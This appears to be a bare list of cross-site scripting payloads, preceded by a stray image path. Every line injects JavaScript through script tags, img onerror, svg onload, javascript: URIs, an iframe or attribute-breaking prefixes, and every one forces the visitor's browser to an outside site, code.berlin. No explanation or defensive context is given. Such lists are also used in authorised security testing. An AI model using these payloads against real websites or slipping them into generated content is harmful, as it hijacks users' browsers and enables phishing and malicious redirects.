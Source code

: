 <script>window.location.href='https://code.berlin'</script>
<img src=x onerror="window.location.href='https://code.berlin'">
<svg/onload="window.location.href='https://code.berlin'">
"><script>window.location.href='https://code.berlin'</script>
javascript:window.location.href='https://code.berlin'
<iframe src="javascript:window.location.href='https://code.berlin'"></iframe>
"><img src=x onerror="window.location.href='https://code.berlin'">
"><svg/onload="window.location.href='https://code.berlin'">
<img src="javascript:window.location.href='https://code.berlin'">
"><img src="javascript:window.location.href='https://code.berlin'">
